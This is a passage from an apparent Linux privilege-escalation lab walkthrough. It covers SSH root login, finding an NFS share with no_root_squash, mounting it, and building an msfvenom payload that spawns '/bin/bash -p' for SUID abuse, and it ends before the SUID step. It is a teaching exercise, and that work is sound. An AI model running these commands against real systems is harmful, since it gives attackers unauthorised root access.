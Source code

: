Mine is 10.10.0.82 as an example
```
$ ssh -i root_key root@10.10.0.82
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~#
```

### NFS

Files created via NFS inherit the remote user's ID. If the user is root,
and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```
user@debian:~$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```

Note that the /tmp share has root squashing disabled.

On your PentestOS box, switch to your root user if you are not already running as root:
```
# mkdir /tmp/nfs
# mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
Created symlink /run/systemd/system/remote-fs.target.wants/rpc-statd.service → /usr/lib/systemd/system/rpc-statd.service.
```

Still using PentestOS's root user, generate a payload using msfvenom and save
it to the mounted share (this payload simply calls /bin/bash):

`# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using PentestOS's root user, make the file executable and set the SUID permission:
